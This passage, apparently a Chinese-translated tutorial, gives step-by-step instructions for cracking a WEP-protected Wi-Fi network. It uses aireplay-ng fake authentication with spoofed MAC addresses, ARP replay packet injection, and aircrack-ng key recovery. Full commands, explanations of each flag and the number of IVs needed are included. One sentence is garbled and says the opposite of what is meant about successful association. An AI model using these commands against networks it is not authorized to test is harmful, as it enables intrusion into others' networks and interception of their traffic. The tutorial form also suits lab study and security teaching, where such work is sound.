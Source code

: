 现在我们将对接入点执行身份验证。我们需要这样做是因为我们将要向无线网络注入数据包，为了能够做到这一点，我们需要创建一个身份验证。如果我们没有经过身份验证和关联网络，那么我们会遇到一个情况，我们的连接尝试将被直接拒绝并失败。我们正在进行的是伪身份验证，并尝试连接到网络。我们这样做的方式是通过获取已成功关联到该无线网络的客户端的 MAC 地址。

为了将客户端与接入点关联，我们将使用伪身份验证：

```
 aireplay-ng -1 0 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

-1 means fake authentication 
0 reassociation timing in seconds 
-e ganon is the wireless network name 
-a 00:14:6C:7E:40:80 is the access point MAC address 
-h 00:0F:B5:88:AC:82 is our card MAC address 
```

或者对于挑剔的接入点的另一种变体：

```
aireplay-ng -1 6000 -o 1 -q 10 -e ganon -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 

6000 - Reauthenticate every 6000 seconds. The long period also causes keep alive packets to be sent. 
-o 1 - Send only one set of packets at a time. Default is multiple and this confuses some APs. 
-q 10 - Send keep alive packets every 10 seconds. 
```

如果一切顺利，您应该会收到一条消息，表示您已成功关联。如果没有，您将收到一条消息，指示您未能成功关联到无线网络，那么您需要在那时再次尝试，但通常情况下，如果您遵循这里的步骤，您应该更有可能关联到您的目标。如果您通过欺骗受害者的 MAC 地址成功关联和身份验证到无线网络，那么您将无法继续进行下一步。

现在让我们进入决定性时刻，我们将生成或诱导我们的目标网络生成流量，以便恢复密钥。这个过程的工作原理是使用一种称为 ARP 请求或广播的东西。我们试图做的是发送一个 ARP 请求，就像任何正常的网络客户端一样。然而，当这个广播寻找客户端时，访问点会按设计原理将其重新广播到网络中，每次我们发送一个广播时都会这样。因此，它会产生大量流量，这些流量又被 WEP 密钥加密和保护。由于我们将监听和捕获这些流量到一个文件，如果一切顺利，我们将记录使用密钥的大量流量（如果我们有耐心），并且我们可以对其进行破解或恢复操作。

要执行注入，我们需要打开另一个控制台并输入：

```
 aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0 
```

它将开始监听 ARP 请求，当它听到一个请求时，`aireplay-ng`将立即开始注入它。

您可以通过检查您的`airodump-ng`屏幕来确认您正在注入。数据包应该在迅速增加。`#/s`应该是一个相当不错的数字。然而，“相当不错”取决于许多因素。典型范围是每秒 300 到 400 个数据包。它可能低至每秒 100 个，高至每秒 500 个。

现在我们已经将流量捕获到一个`.cap`文件中，我们现在将尝试从捕获的数据包中检索密钥。为此，我们执行以下操作：

打开另一个新的控制台会话并输入：

```
 aircrack-ng -b 00:14:6C:7E:40:80 output*.cap 

-b 00:14:6C:7E:40:80 selects the one access point we are interested in.  

*.cap selects all files starting with "output" and ending in ".cap". 
```

您可以在生成数据包的同时运行此操作。在短时间内，WEP 密钥将被计算并呈现。对于 64 位密钥，您大约需要 250,000 个 IV，对于 128 位密钥，您需要 1,500,000 个 IV。请注意，这些值只是粗略指导，其他变量可能会影响您实际需要收集多少流量和 IV。

